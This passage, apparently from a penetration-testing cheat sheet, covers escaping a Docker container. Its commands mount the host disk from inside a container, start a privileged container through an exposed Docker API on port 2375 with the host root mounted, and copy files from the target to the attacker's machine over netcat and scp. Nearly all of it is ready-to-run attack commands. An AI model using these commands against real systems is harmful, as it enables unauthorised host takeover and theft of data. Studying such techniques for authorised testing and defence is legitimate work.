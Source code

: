 ```bash
findmnt
lsblk
fdisk -l
```

### 2. Mount Folder

If we find a folder which is not mounted in the container, mount it to go inside the directory.

```bash
mkdir -p /mnt/tmp
mount /dev/xvda1 /mnt/tmp
```

Now we can observe inside the `/mnt/tmp` directory.

<br />

## Privilege Escalation to Root

Please see [Linux Privilege Escalation](/exploit/linux/privilege-escalation/).

<br />

## Run Vulnerable Docker Image

According to [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker#compromising), we can escape a docker container with the vulnerable image.  
Execute the following command in the target machine where a docker container is running..

```sh
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
cd /mnt/
```

<br />

## Download Interesting Files

```bash
# In local machine
nc -lp 4444 > example.txt

# In remote machine
nc <local-ip> 4444 < example.txt
```

Also we can use “scp” under the condition that the local machine opens SSH server.

```bash
# In local machine
sudo systemctl start ssh

# In remote machine
scp ./example.txt <username>@<local-ip>:/home/<username>/example.txt
```
